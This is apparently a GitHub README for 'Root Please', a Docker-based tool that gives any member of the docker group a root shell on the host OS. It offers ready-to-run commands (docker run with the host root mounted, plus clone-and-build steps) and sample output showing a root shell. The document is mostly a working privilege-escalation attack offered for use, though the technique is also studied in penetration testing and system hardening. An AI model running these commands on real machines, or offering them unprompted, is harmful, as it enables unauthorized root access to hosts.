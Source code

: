 Root Please
===========

If you're a member of the 'docker' group on a machine, this command gives you a
root shell on the host OS. [See my blog post for
details](https://fosterelli.co/privilege-escalation-via-docker).

Supported architectures: amd64, arm64, arm/v7.  
Original Repository: [rootplease](https://github.com/chrisfosterelli/dockerrootplease)

How to Use
----------

Through Docker Hub:

```bash
> docker run -v /:/hostOS -it --rm aravindha1234u/rootplease
```
 
Or through Github:

```bash
> git clone https://github.com/aravindha1234u/rootplease rootplease
> cd rootplease/
> docker build -t rootplease .
> docker run -v /:/hostOS -it --rm rootplease
```

And the result:

```bash
aravindha@parrotos:~$ docker run -v /:/hostOS -it --rm aravindha1234u/rootplease

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami
root
# 
```
